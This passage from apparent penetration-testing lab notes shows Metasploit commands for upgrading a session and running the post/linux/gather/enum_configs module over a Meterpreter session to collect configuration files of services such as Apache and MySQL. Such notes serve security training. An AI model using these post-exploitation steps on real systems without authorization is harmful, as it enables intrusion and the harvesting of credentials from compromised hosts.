 - Enumerate apps and services **configuration files**

```bash
exit
# if the session dies, open a new one
sessions -u 1
```

```bash
search enum_configs
use post/linux/gather/enum_configs
info
# Description:
#   This module collects configuration files found on commonly installed 
#   applications and services, such as Apache, MySQL, Samba, Sendmail, 
#   etc. If a config file is found in its default path, the module will 
#   assume that is the file we want.
sessions
# Set the Meterpreter session
set SESSION 4
run

# It will not migrate if it's already a x64 process  
```

![Metasploit - post/linux/gather/enum_configs](3-metasploitassets/image-20230422123734142.png)
